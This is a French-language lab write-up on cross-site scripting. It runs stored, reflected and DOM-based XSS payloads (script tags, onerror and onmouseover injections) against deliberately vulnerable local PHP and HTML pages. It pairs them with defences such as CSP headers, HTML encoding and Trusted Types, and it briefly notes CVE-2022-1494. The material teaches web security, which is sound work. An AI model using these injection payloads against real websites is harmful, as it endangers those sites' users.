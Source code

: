 # TP2

**Question 1 : Perform a store XSS attack to [`guestbook.php`](http://localhost:8080/tp2/ressources/guestbook.php). Defend this with a CSP header.**

**Script : [tp2/ressources/guestbook.php (localhost live)](http://localhost:8080/tp2/ressources/guestbook.php) | [tp2/ressources/guestbook.php (code)](/src/tp2/ressources/guestbook.php)**

**Deux manières de le faire :**

En marquant en message le code suivant :

```html
<script>alert('xss')</script>
```

On inscrit dans `messages.txt` notre XSS.

**Seconde manière : On peut aussi le faire manuellement directement via le fichier PHP qui s'en occupe :**

Il faut rentrer dans le champ input de la page web du code JavaScript à exécuter dans une balise script.  
Le navigateur va contacter un autre script avec la valeur de l'input dans le paramètre "message".

```bash
http://localhost:8080/tp2/ressources/guestbookleavemessage.php?message=<script>alert('xss')</script>
```

Le champ de l'utilisateur va être stocké côté serveur.  
Nous permettant de réaliser une XSS stored. Lorsque l'utilisateur va recharger la page `tp2/guestbook.php`, le contenu du fichier va être récupéré et le code contenu à l'intérieur va être exécuté.

Pour mettre en place le *CSP  header* (Content Security Policy) sur le script PHP. Il faut rajouter le code php suivant au début du script.

```php
header("Content-Security-Policy: script-src 'self'");
```

Maintenant le client va exécuter que les balises script qui ont pour origine celui du serveur, donc localhost.

Résultat :

- [tp2/mycode/guestbook_csp_header.php (localhost live)](http://localhost:8080/tp2/mycode/guestbook_csp_header.php)
- [tp2/mycode/guestbook_csp_header.php (code)](/src/tp2/mycode/guestbook_csp_header.php)

---

**Question 2 : [`xssme.php`](http://localhost:8080/tp2/ressources/xssme.php) perform all the attacks and generate protectedxssme.php to defend.**  
**Do htmlentities or htmlspecialchars work in every context of [`xssme.php`](http://localhost:8080/tp2/ressources/xssme.php)? If not, explain and correct.**

**Script : [tp2/ressources/xssme.php (localhost live)](http://localhost:8080/tp2/ressources/xssme.php) | [tp2/ressources/xssme.php (code)](/src/tp2/ressources/xssme.php)**

Paramètre : htmlcontext

```bash
htmlcontext=<script>alert('xss');</script>
htmlcontext=%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

<http://localhost:8080/tp2/ressources/xssme.php?htmlcontext=%3Cscript%3Ealert(%22xss%22)%3C/script%3E>

Paramètre : attributecontext1

```bash
attributecontext1='' onerror=alert('xss')
attributecontext1=%27%27%20onerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext1=%27%27%20onerror=alert(%22xss%22)>

Paramètre : attributecontext2

```bash
attributecontext2="" onerror=alert('xss')
attributecontext2=%22%22%20onerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext2=%22%22%20onerror=alert(%22xss%22)>

Paramètre : attributecontext3

```bash
attributecontext3='' onerror=alert('xss')
attributecontext3=%27%27%20onerror=alert(%27xss%27)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontext3=%27%27%20onerror=alert(%27xss%27)>

Paramètre : scriptcontext

```bash
scriptcontext=alert('xss')
scriptcontext=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?scriptcontext=alert(%22xss%22)>

Paramètre : attributecontextonerror

```bash
attributecontextonerror=alert('xss')
attributecontextonerror=alert(%22xss%22)
```

<http://localhost:8080/tp2/ressources/xssme.php?attributecontextonerror=alert(%22xss%22)>

**Défenses :**

Il faut mettre en place le CSP sur le script-src avec pour valeur self.

```php
header("Content-Security-Policy: script-src 'self'");
```

Un autre moyen est d'encoder les inputs utilisateurs avec des fonctions d'encoding comme htmlentities et htmlspecialchars en php.

Résultat :

- [tp2/mycode/protectedxssme.php (localhost live)](http://localhost:8080/tp2/mycode/protectedxssme.php)
- [tp2/mycode/protectedxssme.php (code)](/src/tp2/mycode/protectedxssme.php)

**Question 3 : Write code to defend and attack for each of the contexts described for XSS and DOM-XSS in the OWASP cheatsheets.**

Exploitation XSS sur les différents scripts :

**Script : [tp2/ressources/domxss4.html (localhost live)](http://localhost:8080/tp2/ressources/domxss4.html) | [tp2/ressources/domxss4.html (code)](/src/tp2/ressources/domxss4.html)**

```bash
x=<script>alert('xss');</script>
x=%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

<http://localhost:8080/tp2/ressources/domxss4.html?x=%3Cscript%3Ealert(%22xss%22)%3C/script%3E>

**Script : [tp2/ressources/domxss5.html (localhost live)](http://localhost:8080/tp2/ressources/domxss5.html) | [tp2/ressources/domxss5.html (code)](/src/tp2/ressources/domxss5.html)**

Mettre une balise script dans l'input ne fonctionne pas, car dans la spécification de HTML :  
"a `<script>` tag inserted with `innerHTML` should not executed."  
(Source : [Element: innerHTML property - Web APIs | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML))

Le moyen est donc d'injecter du code javascript, mais sans utiliser une balise script.  
L'une des manières de faire est d'utiliser une balise img.

```bash
<img src='' onerror=alert('xss');>
```

**Script : [tp2/ressources/domxss6.html (localhost live)](http://localhost:8080/tp2/ressources/domxss6.html) | [tp2/ressources/domxss6.html (code)](/src/tp2/ressources/domxss6.html)**

`window.location.hash` permet de récupérer les fragments qui sont spécifiés dans l'url par l'utilisateur c'est-à-dire, l'ensemble des paramètres spécifiés après le caractère `#`.

```txt
http://localhost:8080/tp2/ressources/domxss6.html#myhash'onmouseover='alert(1)
```

Note : on ne peut pas encoder les caractères `"` et `'` avec des `%22` et `%27` car le navigateur va les décoder et les interpréter comme les trois caractères et pas leur valeur encodée.

Le code javascript s'exécute lorsque l'utilisateur clique sur la balise input.

**Défenses contre XSS :**

- Utiliser le mécanisme CSP
- Encoder les inputs utilisateurs en caractères HTML

**Défenses contre XSS-DOM :**

- Utiliser le mécanisme de CSP
- Encoder les inputs utilisateurs en caractères HTML
- Utiliser l'API Trusted Types ([Trusted Types API - Web APIs | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API))
- Utiliser le mode strict de javascript (`"use strict";` en première ligne de chaque fichier JavaScript ([Strict mode - JavaScript | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Strict_mode))
- Ne pas utiliser `innerHTML` sur des inputs non vérifiés et utilisé plutôt à la place innerText.

**Question 4 : Investigate how to use Trusted types for DOM-XSS and the new attack.**

[Untrusted types: Researcher demos trick to beat Trusted Types protection in Google Chrome | The Daily Swig](https://portswigger.net/daily-swig/untrusted-types-researcher-demos-trick-to-beat-trusted-types-protection-in-google-chrome)

**Fonctionnement de la Trusted types API :**

La trusted types API permet de forcer la validation des chaines de caractères employées pour l'utilisation des fonctions constituant des "injections sinks".  
Les injections sinks sont des fonctions qui insèrent du HTML dans le document, des fonctions qui créent un nouveau document de même origine avec un balisage contrôlé par l'appelant, des fonctions qui exécutent du code et des setteurs pour les attributs d'éléments qui acceptent une URL pour charger ou exécuter du code.

Si l'utilisateur utilise une string au lieu d'un trusted type fourni par une fonction de validation définie dans un objet TrustedTypePolicyFactory, l'utilisateur va recevoir une "TypeError".

**L'attaque : CVE-2022-1494.**

Il n'y a pas beaucoup d'information sur la vulnérabilité, à l'exception que le problème vient "d'une validation insuffisante des données dans Trusted Types dans Google Chrome avant la version 101.0.4951.41 permettait à un attaquant distant de contourner les trusted types policies via une page HTML élaborée."

Source : [NVD - CVE-2022-1494 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2022-1494)
